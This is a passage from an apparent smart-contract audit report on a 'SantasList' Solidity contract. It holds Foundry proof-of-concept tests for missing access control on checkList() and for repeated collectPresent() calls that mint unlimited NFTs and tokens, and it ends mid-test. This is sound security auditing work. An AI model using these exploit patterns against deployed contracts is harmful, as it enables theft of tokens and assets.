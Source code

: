 **Proof of Concepts**

```javascript
    function testAnyoneCanSetStatusForHimselfOrOthers() external {
        address user2 = makeAddr("user2");

        vm.prank(user);
        // set Status for `user`
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        // set Status for `user2`
        santasList.checkList(user2, SantasList.Status.NAUGHTY);

        SantasList.Status statusOfuser = santasList.getNaughtyOrNiceOnce(user);
        SantasList.Status statusOfuser2 = santasList.getNaughtyOrNiceOnce(user2);
        
        // Status.EXTRA_NICE is equal to 1
        assert(uint256(statusOfuser) == 1);
        // Status.NAUGHTY is equal to 2
        assert(uint256(statusOfuser2) == 2);
    }
```

Run the Test with Following Command:

```javascript
    forge test --match-test testAnyoneCanSetStatusForHimselfOrOthers -vvvv
```

**Recommended mitigation**

add `onlySanta()` modifier to `checkList()` function.


### [HIGH-4] `NICE` and `EXTRA_NICE` people can get infinite amount of NFT And SantaTokens.

**Description**

if we take a look at `collectPresent()` function, after we mint users NFT and SantaTokens, we do not set the `msg.sender` Status to `NAUGHTY` or `NOT_CHECKED_TWICE`. user's can take advantage of it and get unlimited amount SantaTokens and NFT's.

**Impact**

user's that have `NICE` or `EXTRA_NICE` Status, can take advantage of This function and get unlimited amount SantaTokens and NFT's.

**Proof of Concepts**

```javascript
    function testUserMintsHimselfUnlimitedAmountNFTandSantaTokens() external {
        address user2 = makeAddr("user2");

        vm.startPrank(santa);
        santasList.checkList(user, SantasList.Status.EXTRA_NICE);
        santasList.checkTwice(user, SantasList.Status.EXTRA_NICE);
        vm.stopPrank();

        vm.startPrank(user);
        vm.warp(1_703_500_000);

        for (uint i = 0; i < 4; i++) {
            santasList.collectPresent();
            santasList.safeTransferFrom(user, user2, i);
        }

        vm.stopPrank();

        // `user2` SANTA NFT balance is 4
        assertEq(santasList.balanceOf(user2), 4);
```